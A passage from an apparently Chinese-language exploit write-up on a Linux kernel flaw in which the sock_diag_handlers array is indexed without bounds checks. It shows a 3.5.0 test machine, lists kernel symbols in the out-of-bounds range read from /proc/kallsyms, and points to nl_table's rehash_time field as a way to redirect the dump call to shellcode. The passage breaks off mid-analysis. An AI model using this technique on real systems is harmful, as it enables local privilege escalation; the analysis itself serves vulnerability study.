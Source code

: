 	        return err;
	}

我们发现上面两个函数都没有对sock_diag_handlers数组的下标进行越界检查。这里我们有可能让该数组在某个特定的下标让hndl->dump(skb, nlh)执行我们的shellcode。因为req->sdiag_family的数据类型是__u8，取值范围是0 – 255，我们可以利用的范围是AF_MAX(40) – 255，我们关注一下sock_diag_handlers数组下标从AF_MAX到 255之间的数据。

	/* 我的实验环境 */
	root@ubuntu:~# uname -a
	Linux ubuntu 3.5.0-17-generic #28-Ubuntu SMP Tue Oct 9 19:32:08 UTC 2012 i686 i686 i686 GNU/Linux
	
	root@ubuntu:~# grep sock_diag_handler /proc/kallsyms 
	c1a487a0 b sock_diag_handlers

查询可利用的地址范围的符号（0xc1a48840 – 0xc1a48b40）

	c1a487a0 b sock_diag_handlers
	c1a48840 B flow_cache_genid
	c1a48860 b flow_cache_global
	c1a488b0 b flow_cache_gc_lock
	c1a488b2 b __key.7168
	c1a488b4 b rps_dev_flow_lock.37642
	c1a488b6 b rps_map_lock.37599
	c1a488b8 b skb_pool
	c1a488b8 b __key.38018
	c1a488c8 b trapped
	c1a488cc b qdisc_base
	c1a488d0 b qdisc_rtab_list
	c1a488d4 b qdisc_stab_lock
	c1a488d8 b act_base
	c1a488e0 b nl_table_users
	c1a488e4 b nl_table 
	c1a488e8 b netlink_chain
	c1a488e8 b __key.38625
	c1a488e8 b __key.38626
	c1a48900 b family_ht
	c1a48980 B proc_net_netfilter
	c1a489a0 B nf_hooks_needed
	c1a48e80 b nf_log_sysctl_fnames

上面是在这个范围里的一些符号。最后有牛人发现可以利用nl_table。dump函数的偏移位置是struct sock_diag_handler + 4（注意编译器的对齐规则），我们来看看nl_table：

	/* linux/net/netlink/af_netlink.c */
	
	struct nl_pid_hash {
	    struct hlist_head   *table;
	    unsigned long       rehash_time;  <- 可利用的变量
	    …. ….
	};
	
	struct netlink_table {
	    struct nl_pid_hash  hash;
	    struct hlist_head   mc_list;
	    …. ….
	};
	